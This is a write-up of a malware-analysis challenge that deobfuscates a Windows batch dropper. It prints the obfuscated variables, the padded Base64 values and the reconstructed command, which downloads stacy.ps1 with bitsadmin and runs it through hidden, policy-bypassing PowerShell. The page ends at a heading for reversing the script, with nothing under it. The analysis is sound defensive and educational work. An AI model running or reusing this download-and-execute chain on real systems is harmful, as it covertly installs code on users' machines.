

# Malcore Challenge



***

## Brief Introduction

<figure><figcaption></figcaption></figure>

Given was a batch file. Upon analysing the file suggested that the script defines several variables with obfuscated names and encoded values. It uses Base64 encoding and other forms of obfuscation to hide the actual commands being executed. The script uses PowerShell to decode Base64 encoded strings and convert them into executable commands. It then constructs and runs commands based on the decoded values.

***

## Variable Obfuscation

```batch
set eitg=set
%eitg% gopy=for
%eitg% hetY="tokens=* delims=" && %eitg% GhEt=in && %eitg% SADFCweFDCWQE=/f
```

Above are the variable declaration made in the script. As we can see `eitg` is declared as `set`. So every time that variable is called using `%eitg%` , it will run the command `set`.

***

## Main Operation

Below are the obfuscated functions that play a crucial role in the scripts. Understanding how the variable declared from the section before, we can construct a more readble functions.

```
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do %eitg% "CVWQeFEWRFQWEd=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do %eitg% "WreqwecQWEFRWE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do %eitg% "KIUYntyERverERF=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do %eitg% "NbfdsvREVntySRE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do %eitg% "iUYTbyteVERTfer=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do %eitg% "QWWEcdweWERee=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do %eitg% "QWERfcerWEDfcvtbytTYR=%%#"
```


Deobfuscated functions are as below:

```batch
for /f tokens=* delims= %%# in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do set "CVWQeFEWRFQWEd=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do set "WreqwecQWEFRWE=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do set "KIUYntyERverERF=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do set "NbfdsvREVntySRE=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do set "iUYTbyteVERTfer=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do set "QWWEcdweWERee=%%#"
for /f tokens=* delims= %%# in ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do set "QWERfcerWEDfcvtbytTYR=%%#"
```

Ah, much better. But there are still an encoded value we need to decode. As seen in the first line above, there was a powershell command executing a base64 conversion. The variable inside the **FromBase64String()** function points to the encoded value somewhere in script.

***

## Decoding Values

I tried to use base64dump.py but somehow it does not detect those strings as a base64 encoding.

Below are the variables and its decoded values:

```
# this is kinda of pointless 
FWEfvrewFWRVEwer=dG#######hpc##########yB#####pc##########yBraW5k#####Y#######SBv######Zi######Bwb2l##########ud#######Gx#####lc#########3M######K######

# Flying saucers often cross my mind when I'm high I'm trippin'
POUINTYEBRTwertf=R!!!!!!m!!!!!!!!!x5aW5n!!!!!!!IHNh!!!!!!!!!dWNl!!!!!!!!!c!!!!!!!!n!!!!!!!!!Mg!!!!!!!!!!b2Z!!!!!!!!!0ZW4gY3!!!!!!!!!J!!!!!!!vc3Mg!!!!!!!bXkgbWlu!!!!!!Z!!!!!!!!!C!!!!!!B!!!!!!3!!!!!!!!aGV!!!!!!uI!!!!!!!EknbSBoa!!!!!!!Wdo!!!!!!!!!IEk!!!!!!!!n!!!!!!!!bSB0!!!!!!cmlwcGl!!!!!!!uJ!!!!!!w!!!!!o=!!!!!

# stacy.ps1
WeTTyhRRvfer=c@@@@@@3R@@@@h@@@@@@@@@Y3k@@@ucH@@@@@@@M@@@xCg@@@==@@@@@@@

# https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 
VerBrtEwFCWe=a!!!!!!H!!!!!R0c!!!!!HM!!!!!!!!!6!!!!!!!!!L!!!!!y!!!!!9!!!!!y!!!!!!!!!!YXc!!!!!!!uZ2!!!!!l0aHVi!!!!!!!!!d!!!!!!!!!!X!!!!!!!!NlcmNvb!!!!!!!!!n!!!!!!!!RlbnQu!!!!!!!!!!Y29tL!!!!!!!0ludG!!!!!!!!!!Vyb!!!!!!m!!!!!!V!!!!!!0LTItM!!!!!!!C!!!!!!!9m!!!!!!a!!!!!!!W!!!!!!!!!!xl!!!!!!!!!!L!!!!!!!X!!!!!N!!!!!h!!!!!!!!bX!!!!!!!!!!B!!!!!!!s!!!!!!!!!!Z!!!!!XMvbWF!!!!!!z!!!!!!!!!!d!!!!!!!!GV!!!!!!!!!!y!!!!!!!!!!L3N!!!!!!jcm!!!!!!!!!!lwdHMvc!!!!!G!!!!!!!!!!9!!!!!!!!3ZXJzaG!!!!!!!!V!!!!!!!!!sbC9z!!!!!!!!!!d!!!!!!!GFjeS5wc!!!!!!zE!!!!!!K!!!!!!!

# [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String
WERtggbvtrWERV=W1N5c!!!!!!!!!!3!!!!!!!!!Rlb!!!!!S5UZXh0LkVuY29ka!!!!!W5!!!!!!nX!!!!!!!!!!To6!!!!!V!!!!!V!!!!!!!!RG!!!!!!!!!!O!!!!!!!!!C5HZXR!!!!!!T!!!!!!!!!!d!!!!!H!!!!!!!Jp!!!!!!!!!!b!!!!!!!!mcoW1N!!!!!!!!5!!!!!c3RlbS5D!!!!!!!!b!!!!!!!25!!!!!!!2!!!!!!ZXJ!!!!!!!0XTo6Rn!!!!!!!!!J!!!!!!!!!!v!!!!!!!!!!bUJh!!!!!!c!!!!!2!!!!!!U2!!!!!!!!!NFN!!!!!!!!!!0!!!!!!!!!cmluZw!!!!!!!!!!o=

# bitsadmin.exe /transfer
NTYerFVERHetERfewef=Y@@@@@@ml0c2Fk@@@@@@@b@@@@@@@@@WluLmV4@@@@@@@@@ZS@@@@@@A@@@@@@v@@@@@@@@@d@@@@@@@HJh@@@@@@bnNmZXI@@@@@@@@K@@@@@@@@@@

# 2795e16d0061f24c913c2602c24535cac20247c25c9c36a89d20ad4820bc4b72  groups.json
# 8cb1fe0e9a428f1a3ffa79763e9a0b58175af886ff3bf91f310f48dd8a2a638d  pretty_groups.json
BRTwercvWQEFRWE=Mjc!!!!!!!!5!!!!!!!NWUx!!!!!!Nm!!!!!!!!!!Q!!!!!wM!!!!!!!DYx!!!!!!!ZjI0!!!!!!!!Yzkx!!!!!!M2My!!!!!NjAyY!!!!!!!!zI0NTM1Y!!!!!!!!!2F!!!!!!j!!!!!!!Mj!!!!!!!!!A!!!!!!!!!!yND!!!!!!!d!!!!!!!!!j!!!!!!!Mj!!!!!!!!Vj!!!!!!!OWM!!!!!!zNmE4!!!!!!!!!!O!!!!!WQyM!!!!!!!!!!GFk!!!!!!!!!NDgy!!!!!!!!!MGJj!!!!!!!!!NGI3M!!!!!i!!!!!!A!!!!!!!!!!gZ3Jv!!!!!!dX!!!!!!!BzLmpzb2!!!!!!!!4KOG!!!!!!!!!!NiMW!!!!!Zl!!!!!!!!M!!!!!!!!!GU!!!!!!!!!5YTQ!!!!!!yOGYxY!!!!!!!!!!TN!!!!!!!!!m!!!!!!!!!!ZmE!!!!!!3O!!!!!!T!!!!!!!!!c2!!!!!!!!!M2!!!!!!U5Y!!!!!!!TBi!!!!!!!!!!NTg!!!!!!!x!!!!!N!!!!!!!!!zV!!!!!!!!!h!!!!!!Z!!!!!j!!!!!!g!!!!!!!!!4NmZmM!!!!!!!!!!2!!!!!!!!!!J!!!!!mO!!!!!TFm!!!!!!!!!!Mz!!!!!!!Ew!!!!!!Z!!!!!jQ4ZGQ!!!!!!!!!4Y!!!!!TJ!!!!!hNj!!!!!!!!!M4ZC!!!!!AgcH!!!!!!!!J!!!!!!!l!!!!!dHR5X2!!!!!!!!!dyb3Vwcy!!!!!!!!!5qc29u!!!!!!!Cg!!!!!!!!!=!!!!!!!!!=!!!!!!!

# -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND
RTYbrtgVEWRqqwer=LU5vUC@@@@@@At@@@@@@@@@d@@@@@2l@@@@@@@@@@O@@@@@@@ZG93@@@@@@U@@@@@@@@1@@@@@RZTEU@@@@@@@gaGl@@@@@kZ@@@@@@GVOI@@@@@@@@C1@@@@@@@@F@@@@@@@@e@@@@@@@@@E@@@@@@@@@V@@@@@@j@@@@@@@@@d@@@@@@@V@@@@@@@@R@@@@@@p@@@@@@@@@@b05Q@@@@@@@@@@b2@@@@@@xpY3@@@@@kgQn@@@@@lw@@@@@@@@@QX@@@@@NzI@@@@@@@@C@@@@@@1Db01@@@@@@@@@@tQU@@@@@5EC@@@@@g==
```

***

## Reconstructing Full Command

The very last line of the script suggest that the full command being constructed and executed.

```
%QWERfcerWEDfcvtbytTYR% "%iUYTbyteVERTfer%" %KIUYntyERverERF% %cd%\%NbfdsvREVntySRE% && %CVWQeFEWRFQWEd% %QWWEcdweWERee% "%cd%\%NbfdsvREVntySRE%"
```

Using the same techniques from the sections before to reconstruct the command executed by this batch file.

```batch
bitsadmin.exe /transfer "f48920e537d9c4e0e795971da3646444190eecd24d719303becdd9a13bfa5810" https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 cd\stacy.ps1 && powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND cd\stacy.ps1
```

As seen above, the command uses **bitsadmin** and **powershell** to download and execute a powershell script named **stacy.ps1**

Below are the command breakdown.

* **`bitsadmin.exe /transfer`**:
  * [`bitsadmin.exe`](https://learn.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool) is a command-line tool used to create, manage, and monitor download and upload jobs. It is often used to perform file transfers in the background.
  * `/transfer` is a parameter used to create a new transfer job. In this context, it’s downloading a file.
* **`"f48920e537d9c4e0e795971da3646444190eecd24d719303becdd9a13bfa5810"`**:
  * This is the job name or identifier for the `bitsadmin` transfer job. It’s a unique identifier for this particular download job.
* **`https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1`**:
  * This is the URL from which the file (`stacy.ps1`) will be downloaded. The file is a PowerShell script hosted on GitHub.
* **`cd\stacy.ps1`**:
  * This specifies the local path where the file will be saved. In this case, it’s attempting to save it to the root directory of the current drive (`C:\`) with the name `stacy.ps1`.
* **`&&`**:
  * This is a conditional operator in batch scripts. It runs the command following `&&` only if the preceding command (`bitsadmin.exe`) succeeds.
*   **`powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND cd\stacy.ps1`**:

    * This is the PowerShell command that will be executed if the file download is successful.

    **Flags and Parameters**:

    * `-NoP` (or `-NoProfile`): Runs PowerShell without loading the profile scripts, which can speed up execution and reduce potential interference.
    * `-wiNdowSTYLE hiddeN`: Sets the PowerShell window to be hidden. This makes the execution less noticeable to users.
    * `-ExEcuTioNPolicy BypAss`: Bypasses the execution policy. By default, PowerShell restricts script execution, but this flag allows scripts to run regardless of policy settings.
    * `-CoMmAND cd\stacy.ps1`: Specifies the command to run, which is to execute the PowerShell script located at `C:\stacy.ps1`.

***

## Reversing stacy.ps1
